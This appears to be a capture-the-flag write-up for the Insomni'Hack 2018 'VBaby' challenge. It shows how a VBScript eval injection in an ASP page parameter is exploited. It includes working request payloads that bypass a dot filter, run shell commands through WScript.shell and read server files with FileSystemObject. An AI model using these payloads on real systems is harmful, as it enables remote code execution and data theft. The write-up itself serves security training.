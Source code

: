 ```yaml
---
title: Insomni'Hack 2018 - VBaby
---
```


# {{page.title}}
Solves: 22 / Points: 137

## Challenge description
```
The admin of this site thinks he's a good dev. Just show him he's not by retrieving the flag on his server!
```

We start with a URL: http://vbaby.insomni.hack

## Challenge resolution
The website has a single input, the `page` GET parameter. After playing and manually fuzzing this input, the server returns a VBscript compilation error.

After some research, we find out that the server is performing an `eval` call on the provided input. However, the dot (.) character is filtered.

We can use two different technics to bypass the dot filter:
1. using `Chr(46)` and concatenation character `&`.
2. using `page=Request("cmd")` and putting the payload within `cmd` parameter.

In order to execute code in VBS, we can leverage `WScript.shell` object. To read the output of the command (and read file content), we use `scripting.FileSystemObject`.

First, we list files and folders within `C:\` by running `cmd /c dir C:\>C:\temp\dir.txt`:
```
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("wscript.shell").Run("cmd+/c+dir+C:\>C:\temp\dir.txt")
```
Then, we read the content of `C:\temp\dir.txt` with:
```
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("scripting.FileSystemObject").OpenTextFile("C:\temp\dir.txt").ReadAll
```
![Reading C folder]({{ site.url }}/assets/reading-c-folder.png)

And we find out that the flag is stored within `C:\this_file_contains_the_flags_guys.txt`.

This final request allows us to grab the flag:
```
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("scripting.FileSystemObject").OpenTextFile("C:\this_file_contains_the_flag_guys.txt").ReadAll
```
![Reading flag]({{ site.url }}/assets/reading-flag.png)

